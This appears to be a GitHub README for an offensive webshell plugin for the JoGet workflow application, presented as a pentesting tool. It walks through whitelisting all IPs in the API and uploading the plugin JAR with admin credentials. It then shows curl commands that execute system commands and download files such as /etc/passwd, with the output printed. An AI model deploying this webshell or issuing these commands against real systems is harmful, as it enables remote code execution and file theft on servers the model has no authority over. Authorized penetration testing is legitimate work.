


# JoGet webshell plugin for RCE

<p align="center">
  A webshell plugin and interactive shell for pentesting JoGet application.
  <br>
  
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"></a>
  <a href="https://www.youtube.com/channel/UCF_x5O7CSfr82AfNVTKOv_A?sub_confirmation=1" title="Subscribe"></a>
  <br>
</p>

## Features

 - [x] Webshell plugin for JoGet.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the JoGet instance.

### Step 1: Whitelist your IP in the API

First of all, you will need to whitelist your IP in the API (or put `*` to match every source IP). This will allow you to perform requests on the `/jw/web/json` endpoint.

 - **API Domain Whitelist**: `*`
 - **API IP Whitelist**: `*`



### Step 2: Upload the webshell plugin

Go to "Manage plugins" page, at http://127.0.0.1:8000/jw/web/console/setting/plugin, and click on "Upload plugin":



Then choose the JAR file of the webshell plugin and click on "Upload":


### Step 3.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=exec&cmd=id"
{"stdout":"uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat),0(root),27(sudo)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:


### Step 3.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/sh
```

### Step 4: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/158264654-df612180-9de5-4b5b-b3a2-ad22ae05b889.mp4

## Development

If you need to compile this plugin, you can use the docker image provided in the [dev_env](./dev_env) folder. It recreates the [Joget Workflow Open Source](https://dev.joget.org/community/display/KBv6/Joget+Workflow+Open+Source) build environnement to build plugins.

Then if you need to test the plugin locally, you can start a JoGet instance with the official docker image like this:

```
docker run -d -p 8000:8080 --rm docker.io/jogetworkflow/joget-community
```

Don't forget to check `docker logs -f <container_id>` to see logs of the running JoGet instance. This is really useful for debugging, especially if you encounter a "[Missing requirement error while importing a plugin](./docs/Missing-requirement-error-while-importing-a-plugin.md)".

## References

 - https://dev.joget.org/community/display/KBv6/Guideline+for+developing+a+plugin

 - https://dev.joget.org/community/display/KBv6/Web+Service+Plugin

 - https://dev.joget.org/community/display/KBv4/Implement+Web+Service+or+Servlet+with+Plugin
 

 - **Useful links for debugging module import**
    + https://thecarlhall.wordpress.com/2012/01/19/understanding-the-unresolved-constraint-missing-resource-message-from-apache-felix/
    + https://thecarlhall.wordpress.com/2012/07/11/understanding-the-unresolved-constraint-missing-requirement-message-from-apache-felix-pt-2/ 
